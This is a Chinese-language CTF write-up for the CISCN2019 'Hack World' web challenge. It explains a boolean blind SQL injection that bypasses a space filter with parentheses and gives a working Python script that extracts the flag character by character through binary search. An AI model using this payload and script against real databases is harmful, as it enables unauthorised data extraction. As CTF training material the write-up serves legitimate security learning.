



# [CISCN2019 华北赛区 Day2 Web1]Hack World

## 考点

- sql注入盲注

## 解题



fuzz 发现这些关键字都被过滤了。



测试发现是bool注入，因为空格被过滤了，可以通过括号绕过

```python
import requests

url = "http://740feb73-ec5b-4efa-9114-5157e49d1958.node4.buuoj.cn:81/index.php"
payload = {
	"id" : ""
}
result = ""
for i in range(1,50):
	l = 33
	r =130
	mid = (l+r)>>1
	while(l<r):
		payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
		html = requests.post(url,data=payload)
		if "Hello" in html.text:
			l = mid+1
		else:
			r = mid
		mid = (l+r)>>1
	if(chr(mid)==" "):
		break
	result = result + chr(mid)
	print(result)
print("flag: " ,result)

```

直接写脚本爆破

